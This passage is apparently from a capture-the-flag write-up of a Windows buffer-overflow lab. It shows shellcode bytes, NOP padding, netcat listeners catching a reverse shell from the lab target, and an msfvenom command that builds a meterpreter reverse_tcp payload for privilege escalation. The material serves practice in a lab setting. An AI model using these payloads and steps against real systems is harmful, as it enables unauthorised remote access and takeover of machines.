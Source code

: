     buf += b"\x5f\xcb\xe4\xb4\x19\xa5\x46\x6e\xf0\x1a\x01\xe6"
    buf += b"\x85\x50\x92\x70\x8a\xbc\x64\x9c\x3b\x69\x31\xa3"
    buf += b"\xf4\xfd\xb5\xdc\xe8\x9d\x3a\x37\xa9\xbe\xd8\x9d"
    buf += b"\xc4\x56\x45\x74\x65\x3b\x76\xa3\xaa\x42\xf5\x41"
    buf += b"\x53\xb1\xe5\x20\x56\xfd\xa1\xd9\x2a\x6e\x44\xdd"
    buf += b"\x99\x8f\x4d"

Prepend NOPs
============

If an encoder was used (more than likely if bad chars are present, remember to prepend at least 16 NOPs (\\x90) to the payload.

    padding = "\x90" * 16

Final Buffer (Shell Exploit)
============================

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell. Start a netcat listener on your Kali box using the LPORT you specified in the msfvenom command (4444 if you didn’t change it).

    nc - lvnp 4444
    listening on [any] 4444 ...

Restart chatserver.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!

    sudo nc -lvnp 4444      
    [sudo] password for sloppy: 
    listening on [any] 4444 ...
    connect to [10.18.91.23] from (UNKNOWN) [10.10.134.192] 49173
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Users\gatekeeper\Desktop>

Now that we have POC, change the IP in the exploit to the target and set up listener again. run the exploit again.

    sudo nc -lvnp 4444      
    [sudo] password for sloppy: 
    listening on [any] 4444 ...
    connect to [10.18.91.23] from (UNKNOWN) [10.10.134.192] 49173
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Users\natbat\Desktop>more user.txt.txt
    more user.txt.txt
    {First Flag found here}

Privilege Escalation
====================

Lets upgrade our shell to a meterpreter session and use some post exploits in msfconsole. Lets make a new payload with msfvenom for the exploit.

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.91.23 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x80" -f py
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    Found 11 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 402 (iteration=0)
    x86/shikata_ga_nai chosen with final size 402
    Payload size: 402 bytes
    Final size of py file: 1993 bytes
